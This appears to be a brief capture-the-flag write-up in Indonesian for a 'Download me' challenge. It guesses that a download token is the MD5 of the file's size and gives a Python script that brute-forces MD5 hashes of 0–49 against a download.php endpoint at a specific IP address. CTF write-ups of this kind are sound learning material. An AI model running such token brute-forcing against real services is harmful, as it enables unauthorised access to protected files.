 # Download me

diberikan sebuah web beserta dengan pengecekan token<br>
<img src="web1.png"><br>
asumsi adalah token merupakan size dari file txt tsb<br>
bruteforce dengan intruder attack md5hash 1 - 50<br> 
<img src="bisa.png">

untuk script<br>
```
import hashlib,requests

url = "http://165.22.22.11:25632/download.php?file=flag.txt&token="

for i in range(50):
        print i
        bf = hashlib.md5(str(i).encode()).hexdigest()
        hasil = requests.get(url+bf)
        if "Invalid" not in hasil.text :
                print hasil.text

#print hashlib.md5("34".encode()).hexdigest()

```
credit to fauzan
